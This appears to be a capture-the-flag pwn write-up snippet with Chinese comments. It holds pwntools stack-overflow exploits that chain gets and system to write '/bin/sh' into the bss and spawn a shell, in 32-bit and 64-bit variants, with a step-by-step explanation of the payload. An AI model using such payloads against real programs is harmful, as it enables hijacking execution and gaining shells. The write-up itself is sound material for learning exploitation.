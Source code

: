 ```python
#当没有bin/sh和sh的字符串时，我们可以利用现有的发送去发送一个bin/sh
#或者也可以直接套板子ret2libc直接求解也是可以的
#32位
elf = ELF('./pwn')
system = elf.sym['system']
buf2 = 0x804B060 #bss段
gets = elf.sym['gets']
pop_ebx = 0x8048409     # 0x08048409 : pop ebx ; ret

payload = cyclic(0x6c+4) + p32(gets) + p32(pop_ebx) + p32(buf2) + p32(system) + 'aaaa' + p32(buf2)

io.sendline(payload) 
io.sendline("/bin/sh")
'''
1. cyclic(0x6c+4) : 这部分使用pwntools库中的 cyclic 函数生成一个循环模式的字符串，长
度为0x6c+4。循环模式字符串用于进行调试和定位溢出点。当然这里你也可以继续使用 ‘a’*
(0x6c+4)也是没有问题的。

2. p32(gets) : 这部分使用pwntools的 p32 函数将 gets 函数的地址转换为一个4字节的字符
串。它用于将 gets 函数的地址作为返回地址覆盖到栈上。使程序在溢出时调用 gets 函数。

3. p32(pop_ebx) : 这部分使用 p32 函数将 pop_ebx 的地址转换为一个4字节的字符串。

pop_ebx 是一个指令序列，用于将栈上的值弹出并存储到寄存器ebx中。

4. p32(buf2) : 这部分使用 p32 函数将 buf2 的地址转换为一个4字节的字符串。 buf2 是一个指
向存储输入数据的缓冲区的指针。

5. p32(system) : 这部分使用 p32 函数将 system 函数的地址转换为一个4字节的字符串。它将
用于将 system 函数的地址作为返回地址覆盖到栈上。

6. 'aaaa' : 这部分是一个4字节的字符串，用于填充栈上的返回地址的剩余空间。

7. p32(buf2) : 这部分使用 p32 函数将 buf2 的地址转换为一个4字节的字符串。它作为

pop_ebx 指令的参数，用于将 buf2 的地址加载到寄存器ebx中。
这个payload的目的是通过栈溢出漏洞控制程序的执行流程。它通过覆盖返回地址，将 gets 函数的
地址作为返回地址覆盖到栈上。然后使用 pop_ebx 指令将 buf2 的地址加载到寄存器ebx中，最后覆盖返
回地址为 system 函数的地址。通过这样的方式，可以执行 system(buf2) 来执行 buf2 指向的字符串所
表示的系统命令。
'''
#64位多了一个pop rdi和buf2的地址在gets函数前
#或者也可以直接套板子ret2libc直接求解也是可以的
elf = ELF('./pwn')
system = elf.sym['system']
buf2 = 0x602080
gets = elf.sym['gets']
pop_rdi = 0x4007f3     # 0x00000000004007f3 : pop rdi ; ret

payload = cyclic(0xA + 8) + p64(pop_rdi) + p64(buf2) + p64(gets) + p64(pop_rdi) + p64(buf2) + p64(system) + 'aaaa' + p64(buf2)

io.sendline(payload) 
io.sendline("/bin/sh")
```
